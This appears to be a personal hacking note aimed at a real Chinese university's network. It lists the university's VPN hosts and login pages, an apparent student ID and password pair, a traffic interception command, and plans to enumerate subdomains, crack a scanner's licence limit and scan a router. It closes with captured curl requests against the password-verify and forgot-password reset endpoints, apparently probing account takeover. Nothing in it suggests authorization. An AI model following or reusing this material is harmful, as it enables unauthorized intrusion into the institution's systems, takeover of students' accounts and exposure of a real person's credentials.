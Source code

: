 ```yaml
---
created: 2021-12-22T13:45:58+08:00
modified: 2022-01-11T02:36:49+08:00
---
```


# The Hack (Get password and tests)

Scan this website with kali linux.

The Intranet Gateway For Campus:
https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:
201960249

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack it first.

to master kali linux, recommend to scrape kali_tools and tutorialspoint for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"password":"abcdefABC","userId":""}' \
  --compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
  --compressed
